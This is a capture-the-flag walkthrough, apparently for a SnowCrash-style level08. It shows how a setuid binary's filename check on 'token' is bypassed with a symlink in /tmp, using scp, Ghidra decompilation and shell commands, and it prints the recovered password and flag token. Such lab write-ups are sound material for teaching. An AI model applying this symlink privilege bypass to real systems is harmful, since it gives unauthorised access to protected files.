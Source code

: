 Here's a `README` for **level08**, written in the same style and format as your previous solutions:

### Solution

1. **List files and check permissions:**

	```bash
	ls -l
	```

	You will see the following files:

	```
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```

	* The binary `level08` is **owned by `flag08`** and has the **SUID bit** set, meaning it executes with `flag08`'s privileges.
	* `token` is a file readable **only** by `flag08`.

2. **Transfer the executable file to your host machine.**

	From your host, use `scp` to copy the binary for analysis:

	```bash
	scp -P 4242 level08@<vm-ip>:~/level08 .
	```

3. **Analyze the binary with Ghidra.**

	Decompiling with Ghidra shows the following logic:

	```c
	if (argc == 1) {
		printf("%s [file to read]\n", argv[0]);
		exit(1);
	}

	if (strstr(argv[1], "token")) {
		printf("You may not access '%s'\n", argv[1]);
		exit(1);
	}

	int fd = open(argv[1], O_RDONLY);
	read(fd, buf, 1024);
	write(1, buf, n);
	```

	🔎 The binary:

	* Prevents access to files **containing** the string `"token"`.
	* But it does **not resolve symlinks** — only checks the input path **string**.

4. **Bypass the check using a symlink.**

	Create a symlink to the `token` file using a different name (e.g. `/tmp/flag08`):

	```bash
	ln -s ~/token /tmp/flag08
	```

	Then run the binary using the **symlink path**:

	```bash
	./level08 /tmp/flag08
	```

	Since `/tmp/flag08` does **not contain the substring** `token`, the binary allows access and reads the file.

	Output:

	```
	quif5eloekouj29ke0vouxean
	```

	You’ve successfully read the protected `token` file using a symbolic link.

5. **Switch to user `flag08` and get the flag:**

	```bash
	su flag08
	```

	Enter the token password: `quif5eloekouj29ke0vouxean`.

	Then run:
	```bash
	getflag
	```

	Output:

	```
	Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
	```

	You’ll receive the `flag08` token.
